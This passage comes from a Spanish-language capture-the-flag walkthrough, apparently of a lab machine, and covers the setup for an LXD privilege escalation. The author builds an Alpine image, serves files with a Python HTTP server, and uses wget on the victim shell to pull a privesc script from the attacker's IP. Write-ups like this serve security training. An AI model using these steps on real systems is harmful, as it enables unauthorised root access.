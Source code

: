 ```bash
❯ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2023-03-31 20:13:50--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 8060 (7.9K) [text/plain]
Grabando a: «build-alpine»

build-alpine                    100%[=======================================================>]   7.87K  --.-KB/s    en 0.005s  

2023-03-31 20:13:51 (1.61 MB/s) - «build-alpine» guardado [8060/8060]


```

Ejecuta este comando como `root`

```bash
bash build-alpine
```

Y nos crea un `.gz`

```bash
❯ ls
 alpine-v3.17-x86_64-20230331_2017.tar.gz   build-alpine   ldx_privelege_escalation-sh
```

Ahora vamos a pasar el `script` y el `.gz` ala maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Me equivoque en el nombre y para que sea mas corto `xd`

```bash
❯ mv ldx_privelege_escalation-sh lxd_privesc.sh
```

```bash
namelessone@anonymous:/tmp$ wget http://10.2.28.226:80/lxd_privesc.sh
--2023-04-01 02:21:19--  http://10.2.28.226/lxd_privesc.sh
Connecting to 10.2.28.226:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1451 (1.4K) [text/x-sh]
Saving to: ‘lxd_privesc.sh’

lxd_privesc.sh      100%[===================>]   1.42K  --.-KB/s    in 0.07s   

2023-04-01 02:21:20 (20.0 KB/s) - ‘lxd_privesc.sh’ saved [1451/1451]

namelessone@anonymous:/tmp$ 
```
